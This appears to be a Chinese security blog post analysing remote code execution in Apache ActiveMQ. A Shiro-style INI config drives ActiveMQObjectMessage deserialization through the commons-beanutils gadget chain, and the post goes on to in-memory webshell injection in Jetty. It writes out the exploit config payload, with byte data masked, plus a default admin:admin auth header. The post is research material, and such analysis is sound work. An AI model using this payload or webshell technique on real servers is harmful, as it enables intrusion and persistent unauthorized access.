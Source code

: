 看到：[https://shiro.apache.org/configuration.html](https://shiro.apache.org/configuration.html)
![](https://i-blog.csdnimg.cn/direct/97263dd4e97b40a6beb4eb2cc53448b4.png)

在`[main]`配置下首先会Defining an object，然后Setting object properties
![](https://i-blog.csdnimg.cn/direct/9ddda012a818468d98eb39adc7eaa50c.png)

通过Apache Commons BeanUtils类，支持调用任意的getter/setter方法

![](https://i-blog.csdnimg.cn/direct/6345f5d4a7264b76adf2b8929c788b71.png)

并且支持Base64以及Hex编码
### ActiveMQObjectMessage
`org.apache.activemq.command.ActiveMQObjectMessage#getObject()`
![](https://i-blog.csdnimg.cn/direct/98cb1ef50a6a4fb8b846a189031c02ae.png)

是一个反序列化操作
![](https://i-blog.csdnimg.cn/direct/88e47260029e4e9cb466f0d2f6bcd9b0.png)

由于环境自带commons-beanutils-1.9.4.jar，直接打cb链即可
```
[main]
byteSequence = org.apache.activemq.util.ByteSequence
byteSequence.data = ***
byteSequence.offset = 0
byteSequence.length = ***
activeMQObjectMessage = org.apache.activemq.command.ActiveMQObjectMessage
activeMQObjectMessage.content = $byteSequence
activeMQObjectMessage.trustAllPackages = true
activeMQObjectMessage.object.a = x
```
![](https://i-blog.csdnimg.cn/direct/d5d384c4eeb74306a43bbd80a4bfb4ed.png)

成功RCE
## 内存马注入
ActiveMQ一般路径下是不解析jsp文件的，要想上传webshell则需要放在admin目录下，并且需要身份验证

看到：[https://github.com/Hutt0n0/ActiveMqRCE](https://github.com/Hutt0n0/ActiveMqRCE)，已经实现了内存马功能，简单看下

由于ActiveMQ使用的中间件是Jetty，遍历线程即可
```
TargetObject = {java.lang.Thread} 
  ---> group = {java.lang.ThreadGroup} 
   ---> threads = {class [Ljava.lang.Thread;} 
    ---> [33] = {java.lang.Thread} 
     ---> contextClassLoader = {org.eclipse.jetty.webapp.WebAppClassLoader} 
      ---> _context = {org.eclipse.jetty.webapp.WebAppContext}
```
![](https://i-blog.csdnimg.cn/direct/d1cd50f6b6754770b4851e8af72bb99f.png)

我们也可以直接使用JMG生成，需要添加协议头（身份认证）：
```
Authorization: Basic YWRtaW46YWRtaW4=
```
![](https://i-blog.csdnimg.cn/direct/3c0eebd761674bbc8555c7d4b11b315c.png)
